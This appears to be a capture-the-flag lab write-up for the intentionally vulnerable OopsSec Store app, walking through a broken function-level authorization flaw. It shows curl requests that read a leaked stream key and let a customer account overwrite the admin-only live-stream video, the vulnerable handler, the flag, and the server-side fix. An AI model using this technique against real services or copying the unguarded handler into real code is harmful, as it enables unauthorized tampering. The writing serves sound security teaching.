


OopsSec Store runs a live-shopping stream called **OopsSec Live**. Staff can swap the featured YouTube video from an admin "Stream Management" panel, and the public `/live` page plays whatever video the config points to. The "Update stream" button only renders for admins — but the API behind it never checks your role. Any logged-in customer can rewrite the broadcast.

This is the exact failure mode behind the 2026 [FIFA internal-systems hack](https://bobdahacker.com/blog/fifa-hack): the Angular frontend checked the JWT for a `NO_ROLES` marker and rendered an access-denied page, while the backend APIs checked nothing — "client-side authorization with no server-side enforcement." That left two things wide open: privileged write operations (changing scores, lineups, kick-off times) reachable by any authenticated account, and the broadcast's RTMP ingest keys sitting right there in the URL. As the researchers put it: "An attacker could have rickrolled the entire FIFA World Cup. Or played Subway Surfers gameplay. Live. On every TV network worldwide." OopsSec Live reproduces both halves — an admin-only write endpoint that never checks your role, and a config read that hands out the RTMP url and stream key to any logged-in customer.

## Table of contents

## Lab setup

From an empty directory:

```bash
npx create-oss-store oss-store
cd oss-store
npm start
```

Or with Docker (no Node.js required):

```bash
docker run -p 3000:3000 leogra/oss-oopssec-store
```

The app runs at `http://localhost:3000`.

## Vulnerability overview

Broken Function Level Authorization (BFLA) happens when an API authenticates the caller but never checks that their **role** is allowed to invoke a privileged function. Authentication ("who are you?") is solved; the function-level authorization ("are you allowed to _do this_?") is missing.

The admin panel at `/admin/live` reads and writes the stream via two endpoints:

- `GET /api/live/stream` returns the config — including the RTMP ingest URL and stream key — to any authenticated user.
- `POST /api/live/stream` updates the featured video. It is mounted with `withAuth`, not `withAdminAuth`.

The only thing that "restricts" the update is the React component hiding the button for non-admins. That is cosmetic gating, and you bypass it by calling the endpoint directly.

## Exploitation

### Step 1: Log in as a regular customer

Use the test credentials for a non-admin user:

- Email: `alice@example.com`
- Password: `iloveduck`

### Step 2: Watch the live stream load

Open the public `/live` page (also linked in the footer). It embeds the "official" broadcast:



### Step 3: Read the stream config

The admin panel is hidden from you in the UI, but the read endpoint is not actually admin-gated. Call it directly:

```bash
curl -b "authToken=<your-jwt-token>" \
  http://localhost:3000/api/live/stream
```

The response leaks the full config — `rtmpUrl`, `streamKey`, and the current `liveVideoId` — to a plain customer account. That is already a finding (exposed broadcast controls).

> **Lab scope:** here the RTMP url and stream key are illustrative — there's no live ingest server to push to, so the hijack below works through the YouTube video swap (the unprotected `POST`) instead. In the real FIFA case that leaked key _was_ the exploit: with the stream key sitting in the URL, an attacker could push their own feed straight into the broadcast pipeline. Same root cause — operational secrets handed to an unprivileged session — this lab just stops at exposing them rather than wiring up a real ingest.

### Step 4: Hijack the broadcast

The update endpoint accepts a `liveVideoId` and never checks your role. Point it at a video of your choosing:

```bash
curl -X POST http://localhost:3000/api/live/stream \
  -b "authToken=<your-jwt-token>" \
  -H "Content-Type: application/json" \
  -d '{"liveVideoId":"dQw4w9WgXcQ"}'
```

The server accepts the write. Reload `/live` and the public broadcast now plays your video. Because a non-admin just rewrote the public stream, the response includes the flag.



### Step 5: The flag

```
OSS{brok3n_funct10n_l3v3l_4uth0r1z4t10n}
```

## Vulnerable code analysis

The bug is in the `POST` handler of `/api/live/stream/route.ts`:

```typescript
// VULNERABLE: withAuth proves you are logged in, nothing checks your role.
export const POST = withAuth(async (request, _context, user) => {
  const { liveVideoId } = await request.json();

  const updated = await prisma.streamConfig.update({
    where: { id: config.id },
    data: { liveVideoId },
  });

  return NextResponse.json({ ok: true, config: updated });
});
```

`withAuth` returns a 401 for anonymous requests, which makes the endpoint _look_ secured. But it never compares `user.role` to `ADMIN`. The admin-only intent lives entirely in the React component that hides the "Update stream" button — and the browser is not an authorization boundary.

The `GET` handler has the same problem in reverse: it hands the RTMP url and stream key to any authenticated user.

## Remediation

### Enforce the role on the server

The codebase already ships a `withAdminAuth` wrapper. Use it on every privileged route, regardless of whether a non-admin "should" be able to find it:

```typescript
export const POST = withAdminAuth(async (request, _context, _user) => {
  const { liveVideoId } = await request.json();

  // Validate input too: accept a known-good YouTube ID, never a free-form URL.
  if (!/^[A-Za-z0-9_-]{11}$/.test(liveVideoId)) {
    return NextResponse.json({ error: "Invalid video id" }, { status: 400 });
  }

  const updated = await prisma.streamConfig.update({
    where: { id: config.id },
    data: { liveVideoId },
  });

  return NextResponse.json({ ok: true, config: updated });
});
```

### Treat secrets as secrets

The RTMP ingest URL and stream key should never be returned to a normal user session. Scope them to admin reads, or drop them from the response entirely.

### The takeaway

Hiding a button is not authorization. Object-level checks (BOLA) ask "can this user touch _this record_?"; function-level checks (BFLA) ask "can this user invoke _this operation_?". Both belong in the handler, enforced server-side — never delegated to whatever the client chose to render.
